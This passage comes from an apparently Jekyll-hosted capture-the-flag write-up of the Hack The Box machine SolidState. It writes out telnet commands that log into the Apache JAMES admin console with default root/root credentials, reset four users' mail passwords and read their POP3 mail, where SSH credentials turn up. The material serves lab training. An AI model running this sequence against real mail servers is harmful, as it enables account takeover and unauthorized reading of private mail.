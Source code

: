 <br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I access the **JAMES Server** again, I look for what other actions I can perform, and there are two very interesting ones: **showing the existing accounts** and **setting a password for a user**. First I search for the available accounts (I find the one created in the previous exploitation) and set the one for the user **james** and if I connect to the **POP** service on port **110** with `telnet` and **[perform an enumeration](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-pop.html?highlight=port%20110#basic-information){:target="_blank"}** using the **james** account I find no mail available, so I'm going to set the passwords for all the available accounts and thus expand my search.

```bash
telnet 10.10.10.51 4555
  root
  root
# listusers                               display existing accounts
# setpassword [username] [password]       sets a user's password
  setpassword james oldb123

telnet 10.10.10.51 110
  USER james
  PASS oldb123
  list

telnet 10.10.10.51 4555
  root
  root
  setpassword thomas oldb123
  setpassword john oldb123
  setpassword mindy oldb123
```

<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I can access the mailing list of the different accounts, I connect again with `telnet` to port **110** and investigate a little more. In **john's** account I already find an interesting email related to **mindy's** password. So I connect to the mail service of this account and I find two mails and in one of them the **SSH** access credentials.
